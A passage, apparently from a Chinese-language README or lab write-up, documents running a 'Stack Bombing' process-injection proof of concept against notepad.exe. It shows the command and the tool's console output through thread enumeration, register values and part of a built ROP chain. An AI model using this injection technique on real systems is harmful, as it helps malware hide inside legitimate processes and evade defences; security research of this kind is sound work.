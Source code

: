 **步骤 2**: 执行 Stack Bombing 注入
```bash
./bin/stack_bombing.exe notepad.exe
```

**完整输出**:
```
[+] Stack Bombing Injection POC
[+] NtQueueApcThread + memset Stack Writing
[+] Original Research: maziland

[*] Launching target process: notepad.exe
[+] Process launched: PID = 118844
[*] Enumerating threads...
[+] Found 4 threads
[*] Injecting into threads...

[*] Injecting into thread 23436
[*] Thread 23436 context:
    RSP: 0xc0a2eff568
    RIP: 0x7ffb404c32b4
[*] Searching for ROP gadgets...
[+] All gadgets found successfully
[*] ROP chain built (46 entries):
    [0] -> 0x7ffb403610a7
    [1] -> 0x7ffb403babf3
    [2] -> 0x0
    [3] -> 0x7ffb3dbd35b2
    [4] -> 0x0
    [5] -> 0x7ffb40419bad
    [6] -> 0x0
    [7] -> 0x7ffb40363a08
    [8] -> 0x0
    [9] -> 0x7ffb3e261cef
    [10] -> 0x0
    [11] -> 0x0
    [12] -> 0x0
    [13] -> 0x0
    [14] -> 0x0
    [15] -> 0x7ffb3e29c4b0
    [16] -> 0x7ffb40361bc2
    [17] -> 0x0
    [18] -> 0x0
    [19] -> 0x0
    [20] -> 0x0
    [21] -> 0x0
    [22] -> 0x7ffb403babf3
    [23] -> 0xc0a2eff568
    [24] -> 0x7ffb3dbd35b2
    [25] -> 0xc0a2efd6d0
    [26] -> 0x7ffb40419bad
    [27] -> 0x8
    [28] -> 0x7ffb40363a08
    [29] -> 0x0
    [30] -> 0x7ffb3e261cef
    [31] -> 0x0
    [32] -> 0x0
    [33] -> 0x0
    [34] -> 0x0
    [35] -> 0x0
    [36] -> 0x7ffb404c8980
    [37] -> 0x7ffb40361bc2
    [38] -> 0x0
    [39] -> 0x0
    [40] -> 0x0
```